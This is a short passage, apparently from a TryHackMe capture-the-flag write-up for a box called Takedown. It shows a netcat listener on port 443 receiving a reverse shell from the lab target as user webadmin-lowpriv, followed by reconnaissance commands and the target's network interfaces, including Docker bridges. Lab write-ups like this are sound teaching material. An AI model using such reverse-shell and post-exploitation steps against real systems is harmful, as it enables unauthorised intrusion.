 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# nc -lnvp 443 
listening on [any] 443 ...
connect to [10.8.27.249] from (UNKNOWN) [10.10.51.56] 58602
bash: cannot set terminal process group (1918): Inappropriate ioctl for device
bash: no job control in this shell
webadmin-lowpriv@www-infinity:~$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
webadmin-lowpriv
www-infinity
uid=1001(webadmin-lowpriv) gid=1001(webadmin-lowpriv) groups=1001(webadmin-lowpriv)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:fc:98:22:cd:83 brd ff:ff:ff:ff:ff:ff
    inet 10.10.51.56/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3474sec preferred_lft 3474sec
    inet6 fe80::fc:98ff:fe22:cd83/64 scope link 
       valid_lft forever preferred_lft forever
3: br-3ed03a0a7af6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:aa:54:97:15 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.1/24 brd 172.20.0.255 scope global br-3ed03a0a7af6
       valid_lft forever preferred_lft forever
    inet6 fe80::42:aaff:fe54:9715/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:6d:9e:18:4c brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
6: vethb1017b2@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-3ed03a0a7af6 state UP group default 
    link/ether fe:85:b0:f4:f5:69 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::fc85:b0ff:fef4:f569/64 scope link 
       valid_lft forever preferred_lft forever
8: veth1e8479a@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-3ed03a0a7af6 state UP group default 
    link/ether b2:a0:ee:63:ae:57 brd ff:ff:ff:ff:ff:ff link-netnsid 2
    inet6 fe80::b0a0:eeff:fe63:ae57/64 scope link 
       valid_lft forever preferred_lft forever
10: veth91fef9b@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-3ed03a0a7af6 state UP group default 
    link/ether e6:cf:ef:31:67:cc brd ff:ff:ff:ff:ff:ff link-netnsid 1
    inet6 fe80::e4cf:efff:fe31:67cc/64 scope link 
       valid_lft forever preferred_lft forever
```
